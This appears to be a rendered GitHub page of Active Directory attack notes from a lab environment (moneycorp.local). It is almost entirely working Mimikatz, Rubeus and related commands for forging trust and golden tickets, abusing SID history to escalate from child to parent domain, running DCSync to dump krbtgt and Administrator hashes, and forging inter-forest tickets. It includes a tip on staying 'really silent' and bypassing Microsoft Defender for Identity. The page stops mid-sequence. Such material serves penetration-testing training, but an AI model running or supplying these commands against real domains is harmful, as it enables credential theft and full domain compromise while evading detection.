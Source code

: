 ## Get a TGS for a service (CIFS below) in the target domain by using the forged trust ticket.
`.\asktgs.exe C:\AD\Tools\trust_tkt.kirbi CIFS/mcorp-dc.moneycorp.local`
## Use the TGS to access the targeted service.
`.\kirbikator.exe lsa .\CIFS.mcorp-dc.moneycorp.local.kirbi`
`ls \\mcorp-dc.moneycorp.local\c$`
## Tickets for other services (like HOST and RPCSS for WMI, HTTP forPowerShell Remoting and WinRM) can be created as well
## We can use Rubeus too for same results! Note that we are still using the TGT forged initially
`Rubeus.exe asktgs /ticket:C:\AD\Tools\kekeo_old\trust_tkt.kirbi /service:cifs/mcorp-dc.moneycorp.local /dc:mcorp-dc.moneycorp.local /ptt`
`ls \\mcorp-dc.moneycorp.local\c$`

## Child to Parent using krbtgt hash.We will abuse sIDhistory once again
`Invoke-Mimikatz -Command '"lsadump::lsa /patch"'`
`Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ticket:C:\AD\Tools\krbtgt_tkt.kirbi"'`
## In the above command, the mimkatz option "/sids" is forcefully setting the sIDHistory for the Enterprise Admin group for dollarcorp.moneycorp.local that is the Forest Enterprise Admin Group.

## On any machine of the current domain
`Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi"'`
`ls \\mcorp-dc.moneycorp.local.kirbi\c$`
`gwmi -class win32_operatingsystem -ComputerName mcorp-dc.moneycorp.local`
`C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"`
## Child to Parent using krbtgt hash (Reccomended way, really silent and bypasses MDI)Avoid suspicious logs by using Domain Controllers group. • S-1-5-21-2578538781-2508153159-3419410681-516 – Domain Controllers • S-1-5-9 – Enterprise Domain Controllers
`Invoke-Mimikatz -Command '"kerberos::golden /user:dcorp-dc$ /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /groups:516 /sids:S-1-5-21-280534878-1496970234-700767426-516,S-1-5-9 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ptt"'`
`Invoke-Mimikatz -Command '"lsadump::dcsync /user:mcorp\Administrator /domain:moneycorp.local"'`

## Across forest trusts will not work as the above as there is SID filtering. You can only access resources that are explicitly allowed, between forests and you do it the same way as above. In this case the shares
`Once again, we require the trust key for the inter-forest trust.
Invoke-Mimikatz -Command '"lsadump::trust /patch"'`
## An inter-forest TGT can be forged
`Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /rc4:cd3fb1b0b49c7a56d285ffdbb1304431 /service:krbtgt /target:eurocorp.local /ticket:C:\AD\Tools\kekeo_old\trust_forest_tkt.kirbi"'`
##  Get a TGS for a service (CIFS below) in the target domain by using the forged trust ticket.